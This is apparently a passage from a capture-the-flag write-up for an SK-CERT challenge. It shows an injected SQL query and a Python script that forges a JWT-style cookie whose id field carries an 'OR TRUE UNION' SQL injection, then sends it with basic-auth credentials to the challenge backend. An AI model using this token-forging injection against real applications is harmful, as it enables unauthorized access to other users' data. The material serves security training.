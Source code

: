 ```sql
SELECT *
FROM notes
WHERE user_id = 'SELECT * FROM notes WHERE user_id = '
   OR TRUE
UNION
SELECT *
FROM notes
WHERE user_id = ''
```

Use `exploit_sqli.py`
```python
import requests
import base64
import json

# Server URL
BASE_URL = "http://exp.cybergame.sk:7000/secretbackend"

# Basic auth credentials
AUTH = ("pr1ncess", "SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}")

# SQL injection payload
payload = '$`\tOR\tTRUE\tUNION\t$`'

# Create malicious token
malicious_payload = {
    "id": payload,
    "username": "any_username",
    "is_d4rk_pr1nc3ss": True
}

# Encode malicious payload
malicious_payload_b64 = base64.b64encode(
    json.dumps(malicious_payload).encode()
).decode()

# Create malicious token
# Format: header.malicious_payload.original_payload.signature
malicious_token = f"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.{malicious_payload_b64}.eyJpZCI6Ijk3ZmM2NTAzLTZiNTEtNGMwNC1iN2FkLWIyODg0ODU2NTg1MiIsInVzZXJuYW1lIjoiaGFja2VyXzU0YWQzNDM3LWE3NDQtNDNiZC04ODk3LTRjNzAzNjE5NDE0MCJ9.sjx1E1dYfc51yeAWZRZpedQKHHnUHow6W%2B9Z6pnY9Uc="

# Make the request
response = requests.get(
    f"{BASE_URL}/api/notes",
    auth=AUTH,
    cookies={"token": malicious_token}
)

# Print the response
print(f"Status code: {response.status_code}")
print(f"Response: {response.text}") 
```
and get a bunch of mess, somewhere in there is a flag:
